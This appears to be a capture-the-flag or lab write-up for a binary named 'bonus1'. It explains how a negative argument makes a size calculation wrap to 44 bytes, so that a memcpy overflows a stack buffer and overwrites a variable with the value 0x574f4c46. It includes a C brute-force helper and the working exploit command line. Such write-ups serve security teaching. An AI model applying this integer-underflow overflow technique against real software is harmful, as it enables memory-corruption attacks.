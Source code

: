 We need to make a stack buffer overflow to write in iVar1 but the progran check if value in first arg is lower tha 10. That set a theoretical limit of 36 bytes to the memcpy, this limit can be bypassed by using a negative value in the first arg, this cause an underflow when iVar1 * 4 is casted into size_t. 

### 1. Find the value as (size_t) (iVar1 * 4) == 44

```c
#include <stdio.h>
#include <limits.h>

int main()
{
    int b = -1;
    while (b > INT_MIN) {
        size_t a = b * 4;
        if (a == 44)
            printf("%lu/%d\n", a, b);
        --b;
    }

    return 0;
}
```

This give two possible values:
```
44/-1073741813
44/-2147483637
```

### 2. Write paylaod

We need to write -2147483637 as first arg.
In the second arg we pass 40 random bytes and 0x574f4c46.

### 3. Execute with exploit

```bash
$ ./bonus1 -2147483637 $(python -c 'print "a"*40 + "\x46\x4c\x4f\x57"')
```
